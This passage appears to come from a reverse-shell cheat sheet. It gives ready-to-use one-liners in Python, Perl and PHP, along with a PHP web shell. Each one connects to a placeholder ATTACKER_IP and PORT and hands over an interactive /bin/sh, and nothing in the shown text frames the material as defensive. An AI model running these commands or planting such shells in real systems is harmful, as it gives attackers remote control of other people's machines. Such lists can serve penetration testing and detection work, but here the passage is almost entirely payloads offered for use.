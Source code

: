 ### Python3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### With SSL
```python
python -c 'import socket,subprocess,ssl;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));ss=ssl.wrap_socket(s);os.dup2(ss.fileno(),0); os.dup2(ss.fileno(),1); os.dup2(ss.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

---

## Perl

### Basic
```perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Without /bin/sh
```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"ATTACKER_IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

---

## PHP

### Basic
```php
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### With proc_open
```php
php -r '$s=fsockopen("ATTACKER_IP",PORT);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```

### Web Shell
```php
<?php system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'"); ?>
```

---